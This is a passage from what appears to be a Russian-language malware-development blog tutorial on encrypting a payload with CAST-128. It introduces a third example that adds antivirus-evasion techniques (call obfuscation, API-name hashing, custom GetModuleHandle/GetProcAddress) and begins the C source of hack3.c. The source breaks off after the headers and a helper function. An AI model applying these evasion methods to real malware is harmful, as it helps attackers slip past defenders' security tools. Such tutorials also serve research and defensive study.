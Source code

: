 ![cryptography](./images/131/2024-07-28_17-14.png){width="80%"}      

Эта версия также работает идеально.     

### практический пример 3

Обновляем наше основное "вредоносное" ПО: добавляем несколько техник обхода, таких как [обфускация вызовов функций](https://cocomelonc.github.io/tutorial/2021/09/06/simple-malware-av-evasion-2.html), [хеширование имен функций](https://cocomelonc.github.io/tutorial/2022/03/22/simple-av-evasion-5.html), а также реализуем [GetModuleHandle](https://cocomelonc.github.io/malware/2023/04/08/malware-av-evasion-15.html) и [GetProcAddress](https://cocomelonc.github.io/malware/2023/04/16/malware-av-evasion-16.html).      

Эта версия выглядит так - `hack3.c`:    

```cpp
/*
* hack3.c
* encrypt/decrypt payload 
* via CAST-128 algorithm
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2024/07/29/malware-cryptography-31.html
*/
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>
#include <winternl.h>
#include <shlwapi.h>
#include <string.h>

#define BLOCK_SIZE 8
#define ROUNDS 16
#define KEY_SIZE 16

int cmpUnicodeStr(WCHAR substr[], WCHAR mystr[]) {
  _wcslwr_s(substr, MAX_PATH);
  _wcslwr_s(mystr, MAX_PATH);

```